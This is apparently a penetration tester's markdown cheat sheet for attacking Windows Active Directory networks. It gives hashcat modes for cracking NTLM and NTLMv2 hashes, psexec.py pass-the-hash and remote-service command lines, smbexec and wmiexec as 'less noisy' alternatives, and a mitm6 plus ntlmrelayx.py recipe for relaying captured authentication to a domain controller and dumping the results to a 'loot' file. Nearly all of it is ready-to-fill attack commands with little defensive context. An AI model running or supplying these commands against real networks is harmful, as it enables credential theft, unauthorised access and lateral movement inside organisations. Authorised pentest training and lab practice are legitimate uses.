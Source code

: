 
# hashcat
hashcat -m # hash code -a ATTACKTYPE 0 or empty hashfile wordlist 
NTLM 1000
NTLMv2 5600



# psexec.py or metasploit #passhash
    used for: 
	    1- passing hashes
		2- creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe
	usage 1 : 
	    psexec.py USUERNAME:@IP -hashes HASH
	usage 2 :
	  psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP
	usage 3 :
      psexec.py DOMAIN/USERNAME:PASSWORD@IP 

## More tools like psexec :

Less noisy start with these
smbexec
wmiexec

# mitm6
```bash
mimt6 -d DOMAIN # start mimt6

# then start relay attack using ntlmrelayx.py
ntlmrelayx.py -6 -t ldaps://DC_IP -wh fakewpad.DOMAIN -l loot


-6 # IPv6
-t # target Domain Controller
-wh # wpad name eg. fakewpad.marvel.local
-l # dump info to file called loot
```


---
Tags:
Resources: